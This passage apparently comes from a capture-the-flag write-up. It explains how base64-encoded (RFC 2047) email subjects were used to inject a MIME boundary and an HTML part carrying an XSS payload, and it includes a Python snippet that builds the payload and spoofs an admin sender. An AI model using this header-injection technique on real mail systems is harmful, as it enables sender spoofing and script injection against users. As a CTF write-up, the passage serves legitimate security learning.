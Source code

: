 ```
Subject: hehehehaw
    line 2
    line 3
blahblah
    From: user@ses
 ```

The resulting subject is `hehehehaw line 2 line 3`.
Our newlines gets eaten!

Fortunately, allu is the goat and thought, "there's gotta be a way to have multiline subjects." So he asked ChatGPT, which gave the exact solution we needed: base 64 encoded subjects.

It turns out that you can write subjects in the form `=?UTF-8?B?{your base64 encoded string here}?=`

Including the jinja b64 bypass from before, the payload looked something like this.

```py
subject = f'''
{boundary}
 Content-Type: text/html
 Content-Transfer-Encoding: base64

{base64.b64encode(xss).decode()}
{boundary}
'''.encode()

payload = f"""=?UTF-8?B?{base64.b64encode(subject).decode()}?=
orz
 From: admin@ses
"""
 ```

But when we ran it, the generated boundaries didn't match, instead having a `.0` appended to the end. Uh-oh.

#### Boundary Revenge <a name='revenge'></a>

*~\ allu pov*

It's time to dig into the python `email` module again. Here's the same function as before.
```py
def _make_boundary(cls, text=None):
    # Craft a random boundary.  If text is given, ensure that the chosen
    # boundary doesn't appear in the text.
    token = random.randrange(sys.maxsize)
    boundary = ('=' * 15) + (_fmt % token) + '=='
    if text is None:
        return boundary
    b = boundary
    counter = 0
    while True:
        cre = cls._compile_re('^--' + re.escape(b) + '(--)?$', re.MULTILINE)
        if not cre.search(text):
            break
        b = boundary + '.' + str(counter)
        counter += 1
    return b
```
